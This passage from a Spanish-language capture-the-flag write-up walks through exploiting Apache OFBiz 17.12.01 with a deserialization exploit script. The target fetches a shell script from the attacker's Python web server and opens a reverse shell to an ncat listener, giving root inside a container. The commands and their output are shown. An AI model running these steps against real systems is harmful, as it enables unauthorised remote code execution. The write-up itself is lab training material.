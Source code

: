 Ejecutamos el `exploit` nos pide como parametros nuestra ip de atacante y un puerto especifico.

```bash
❯ bash ofbiz.sh

Usage:
	[-i] Attacker's IP
	[-p] Attacker's Port
	[-h] Show help pannel
```

Nos compartimos un servicio web con `python3` ya que el `exploit` hara una petición a nuestra maquina solicitando un archivo de nombre `shell.sh` el cual previamente creara y con el cual nos devolvera una conexion al puerto que le especificamos. Seguidamente nos pondremos en escucha con `ncat` y lanzamos el `exploit`.

```bash
❯ bash ofbiz.sh -i 10.10.16.3 -p 443

[*] Creating a shell file with bash

[*] Downloading YsoSerial JAR File

[*] Generating a JAR payload

[*] Sending malicious shell to server...

[*] Generating a second JAR payload

[*] Executing the payload in the server...


[*]Deleting Files...
❯ cat ofbiz.sh
```

Recibimos la petición.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.238 - - [14/May/2023 22:43:38] "GET /shell.sh HTTP/1.1" 200 -
```

y ganamos acceso, pero a un contenedor.

```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.238.
Ncat: Connection from 10.10.10.238:40592.
bash: cannot set terminal process group (32): Inappropriate ioctl for device
bash: no job control in this shell
root@b097fc57960e:/usr/src/apache-ofbiz-17.12.01# whoami
whoami
root
root@b097fc57960e:/usr/src/apache-ofbiz-17.12.01# hostname -I
hostname -I
172.17.0.2 
root@b097fc57960e:/usr/src/apache-ofbiz-17.12.01#
```
